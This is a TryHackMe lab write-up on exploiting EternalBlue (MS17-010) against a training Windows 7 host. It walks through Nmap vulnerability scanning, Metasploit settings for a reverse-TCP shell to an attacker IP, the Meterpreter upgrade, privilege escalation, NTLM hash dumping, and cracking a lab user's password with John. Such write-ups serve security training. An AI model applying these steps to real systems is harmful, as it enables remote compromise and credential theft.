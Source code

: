 # TryHackMe — Blue WriteUp

**Room**: [Blue](https://tryhackme.com/room/blue)
**Category**: Exploitation of SMB & Windows
**Description**: Demonstrate EternalBlue exploitation on a vulnerable Windows host.

---
## Tools
- **Nmap** (service/OS and vulnerability scripts)
- **Metasploit** (exploit and post modules)
- **John** (password cracking)
---
## Target
- IP: `10.201.74.172` (exported as an environment variable for convenience)
```bash
# Set target IP for easier command reuse
export IP=10.201.74.172
```

---
# Task 1: Recon

To start I performed an Nmap scan to identify open ports, services, and potential vulnerabilities:
```bash
nmap -sV -sC -sS -T4 --script vuln $IP
```

![[Pasted image 20250923144301.png]]
**Nmap scan findings**:
- Port 445 open and using `microsoft-ds` (SMB)
- OS fingerprint: Windows 7 Professional
- Nmap script reported the host as vulnerable to **ms17-010** (EternalBlue)
**Answers (TryHackMe)**
- Number of open ports under 1000: **3**
- Vulnerability identified: **ms17-010**
# Task 2: Gain Access 
Metasploit has a module for this exploit, so I started Metasploit to exploit MS17-010.

1. Search and select the EternalBlue module:
```bash
exploit/windows/smb/ms17_010_eternalblue
```
![[Pasted image 20250923145316.png]]

I selected the first module and ran `show options`:
![[Pasted image 20250923145833.png]]

I set the required options:
```bash
set RHOSTS 10.201.74.172
set LHOST <attacker_IP>
set payload windows/x64/shell/reverse_tcp

#replace <attacker_IP> to my IP
```

**Result:** Then I ran with these options set. It was a successful exploitation and a shell was obtained:
![[Pasted image 20250923153221.png]]
# Task 3: Escalate 
Next I upgraded the shell to a Meterpreter. I backgrounded the previously gained shell (CTRL+Z):
![[Pasted image 20250923153422.png]]

I searched shell_to_meterpreter and it shows in the results:
![[Pasted image 20250923153739.png]]

I select:
```bash
post/multi/manage/shell_to_meterpreter
```

and set SESSION to 1:
![[Pasted image 20250923153855.png]]

![[Pasted image 20250923154135.png]]

After converting, I ran:
- `sysinfo` to confirm target OS and session info
- `getsystem` and `getuid` to verify SYSTEM privileges

![[Pasted image 20250923155633.png]]

I reviewed running processes and targeted `lsass` (a common process to extract credentials when privileged):
![[Pasted image 20250923161119.png]]

# Task 4: Cracking
Next I run the command 'hashdump' and retrieved NTLM hashes for `Administrator`, `Guest`, and `Jon`:

![[Pasted image 20250923161335.png]]

In another terminal I saved `Jon`'s NTLM hash to a file and cracked it with John:
```bash
john hashes.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250923162748.png]]

**Cracked password for Jon:** `alqfna22`

With that password I authenticated and accessed the filesystem to retrieve flags:

First flag located at `C:\flag1.txt`
![[Pasted image 20250923164710.png]]

The next flag was located at `C:\Windows\System32\config\flag2.txt`
![[Pasted image 20250923164410.png]]

Third (final) flag found in user Jon's directory: `C:\Users\Jon\Documents\flag3.txt`
![[Pasted image 20250923165329.png]]

# Takeaways
- **EternalBlue** targets SMBv1 and can allow remote code execution on unpatched Windows systems.
- **Nmap scripts** (like `--script vuln` used in this CTF) are effective for quickly identifying vulnerable services during reconnaissance.
- **Metasploit** provides modules for exploitation and post-exploitation automation (shell to meterpreter, privilege checks, hash dumping). 
- **Credential harvesting and offline cracking** (hashdump → John) is a practical escalation path on Windows systems with weak passwords.
- **Older and widely-known exploits** are useful for labs and CTFs because they demonstrate exploitation methodology in its simplest form.
- **Patching** is essential.